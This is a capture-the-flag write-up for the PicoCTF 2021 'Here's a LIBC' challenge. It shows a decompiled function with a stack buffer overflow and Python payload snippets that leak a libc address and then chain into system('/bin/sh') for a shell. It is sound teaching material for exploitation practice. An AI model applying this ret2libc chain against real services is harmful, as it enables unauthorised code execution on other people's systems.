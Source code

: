# PicoCTF 2021, Here's a LIBC, pwn

## Solution

Vulnerable function:
```c
void do_stuff(void)
{
    char cVar1;
    undefined local_89;
    char local_88 [0x70];
    undefined8 local_18;
    ulong local_10;
    
    local_18 = 0x0;
    __isoc99_scanf("%[^\n]",local_88);
    __isoc99_scanf(&DAT_0040093a,&local_89);
    local_10 = 0x0;
    while (local_10 < 0x64) {
        cVar1 = convert_case((int)local_88[local_10],local_10,local_10);
        local_88[local_10] = cVar1;
        local_10 = local_10 + 0x1;
    }
    puts(local_88);
    return;
}
```

We can overflow buffer local_88 and leak e.g. puts plt address, so we can calculate libc base. Binary is 64bit, so we have to move puts plt address to rdi register and call puts to print it out. After this we should call do_stuff function again.

```py
payload = b'A' * OFFSET
payload += p64(POP_RDI)
payload += p64(PUTS_GOT)
payload += p64(PUTS_PLT)
payload += p64(DO_STUFF)
```
After executing this piece of exploit we got puts plt address. We are given exact libc version so calculating it's base address was not hard at all. 

```py
libc_base = PUTS_LEAKED - libc.symbols["puts"]
```

So now we are again in do_stuff function. Now we know libc base address, so we can calculate system() address, exit() address and look for /bin/sh string in our libc file.

Using again buffer overflow we can pop the shell:

```py
payload = b'A' * OFFSET
payload += p64(RET) # align stack
payload += p64(POP_RDI)
payload += p64(BINSH)
payload += p64(SYSTEM)
payload += p64(EXIT)
```



Exploit: [go.py](./go.py)
